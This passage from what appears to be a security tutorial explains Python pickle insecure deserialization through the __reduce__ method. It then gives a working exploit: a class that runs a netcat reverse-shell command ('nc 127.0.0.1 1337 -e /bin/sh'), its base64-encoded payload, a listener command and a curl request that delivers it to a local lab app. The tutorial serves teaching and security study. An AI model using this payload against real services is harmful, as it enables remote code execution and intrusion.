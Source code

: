 > The `___reduce__()` method takes no argument and shall return either a string or preferably a tuple (the returned object is often
> referred to as the "reduce value"). […] When a tuple is returned, it
> must be between two and six items long. Optional items can either be
> omitted, or None can be provided as their value. The semantics of each
> item are in order:_
> 
> _-> A callable object that will be called to create the initial version of the object._
> 
> _-> A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument. […]_

So by implementing the __reduce__ method in a class, we can pass a callable object and some arguments for the Pickle Machine to run. We can abuse it for getting a reverse shell by passing in "os.system()" as the callable object and the command to execute as the argument. Putting it altogether:

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return os.system, ("nc 127.0.0.1 1337 -e /bin/sh",)

object = RCE()
pickled = pickle.dumps(object)
encoded = base64.b64encode(pickled)

print(encoded)
```

Running the above code will result in:

```
b'gASVNwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBxuYyAxMjcuMC4wLjEgMTMzNyAtZSAvYmluL3NolIWUUpQu'
```

Copy just the base64 data and send it to the server via the "data" parameter. Before that start a netcat listener on port 1337.

```
# Netcat command for reverse shell
nc -lvnp 1337

# Send the payload via curl
curl http://localhost:5000/?data=gASVNwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBxuYyAxMjcuMC4wLjEgMTMzNyAtZSAvYmluL3NolIWUUpQu
```

After sending the payload, you can see we have successfully gotten a reverse shell!

![reverse shell](https://i.imgur.com/jNRhTpm.png)

That’s it for exploiting insecure deserialization in Python.
